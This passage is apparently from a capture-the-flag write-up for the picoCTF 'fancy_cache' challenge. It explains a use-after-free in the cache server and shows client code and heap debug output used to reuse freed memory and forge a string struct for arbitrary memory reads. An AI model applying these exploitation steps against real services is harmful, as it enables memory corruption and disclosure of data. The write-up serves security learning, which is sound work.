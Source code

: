 The function `do_cache_get` will free a string struct when the lifetime goes below zero, but `cache_lookup` will happily return entries with a negative lifetime. That means we can free a string struct, *somehow* write to it, and influence the cache entries! After calls to `free()`, subsequent calls to `malloc()` will usually return recently freed memory. For instance, consider this sequence:

```bash
# start our server
bas@tritonal:~/tmp/picoctf/fancy_cache$ socat TCP-LISTEN:1337,reuseaddr,fork EXEC:./fancy_cache
```

And modify the client.py script a bit:

```python
# Add an entry with a negative lifetime. This will fool cache_lookup.
cache_set(f, 'keyAAAA', 'AAAA____', 0xffffffff)

# Request that value, causing it to be deleted from cache
print cache_get(f, 'keyAAAA')

# Now request the value of 'bleh'
print cache_get(f, 'bleh')
```

This results in the following debug output of the local server:

```bash
malloc(12) = 0x8598008 (string_create)
realloc((nil), 7) = 0x8598018 (read_into_string)
malloc(12) = 0x8598028 (string_create)
realloc((nil), 8) = 0x8598038 (read_into_string)
realloc((nil), 7) = 0x8598048 (read_into_string)
Destroying key
free(0x8598008) (string_destroy str)
Destroying value
free(0x8598028) (string_destroy str)
realloc((nil), 4) = 0x8598028 (read_into_string)
```

At first, the code allocates `0x8598008` and `0x8598028` as `key` and `value` string structs, respectively. Then, we request the value of 'keyAAAA', causing do_cache_get to free that memory again. Next, we request the value of the non-existent key 'bleh'. However, the program allocates space at `0x8598028`, the recently freed region! Because the cache entry is still valid (lifetime != 0), we can write a new string struct to these locations! Let's first try to read memory. There is a hint hidden on the remote server, waiting for us. In the local copy, it just says `REDACTED`. In order for this work, cache->key->data must point to a real string. I choose 'printf' in the binary. So:

-	We register a struct string with lifetime -1. 
-	We fetch it; the struct string will be freed, but the cache_lookup() function will still try to use it, because lifetime != 0
-	We try to request another string struct, but this will allocate the old memory location and overwrite the old alloc’ed key & value regions (still valid according to cache_lookup()!). 
-	We “write” a string struct into value:
```bash
	old_value->length = 0xff
	old_value->capacity = 0x00
	old_value->data = pointer to whatever we want to read
```
-	We write a string struct into key:
